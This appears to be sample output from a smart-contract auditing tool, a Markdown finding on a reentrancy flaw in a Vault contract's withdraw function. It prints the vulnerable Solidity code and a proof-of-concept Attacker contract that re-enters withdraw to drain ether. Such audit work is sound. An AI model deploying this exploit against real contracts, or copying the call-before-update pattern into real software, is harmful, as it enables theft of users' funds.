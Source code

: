 **3. Detailed Findings (Markdown):**

```markdown
# Detailed Findings Report

## [XAUDIT-001] Reentrancy in Vault.withdraw()

**Severity:** CRITICAL (Priority: 10/10)
**Detector:** Slither `reentrancy-eth`
**Confidence:** High
**AI Classification:**
- Impact Score: 9.5/10
- Exploitability: 8.0/10
- False Positive Likelihood: 5%

### Description
External call to `msg.sender` is made before updating `balances[msg.sender]`, allowing reentrant calls.

### Location
`src/contracts/Vault.sol:45-50`

```solidity
function withdraw(uint256 amount) external {
    require(balances[msg.sender] >= amount);
    (bool success, ) = msg.sender.call{value: amount}("");  // ❌ External call
    require(success);
    balances[msg.sender] -= amount;  // ❌ State update AFTER call
}
```

### Proof of Concept
```solidity
contract Attacker {
    Vault victim;
    uint256 count;

    receive() external payable {
        if (count++ < 10) {
            victim.withdraw(1 ether);  // Reentrant call
        }
    }

    function attack() external payable {
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
        // Result: Drained 10 ether with only 1 ether deposited
    }
}
```

### Impact
- **Financial:** Can drain entire contract balance
- **Probability:** HIGH (easily exploitable)
- **Users Affected:** All users
